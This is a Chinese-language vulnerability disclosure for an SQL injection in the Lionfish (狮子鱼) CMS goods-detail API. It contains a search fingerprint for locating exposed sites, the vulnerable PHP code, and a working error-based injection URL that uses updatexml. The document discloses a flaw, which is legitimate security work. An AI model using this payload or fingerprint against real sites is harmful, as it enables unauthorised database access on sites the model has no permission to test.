 # 狮子鱼CMS ApigoodController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/szy-1-20220314000241117.png)



存在漏洞的文件为 `ApigoodsController.class.php` , 关键位置为



```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/szy-6.png)



漏洞测试为



```plain
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/szy-7.png)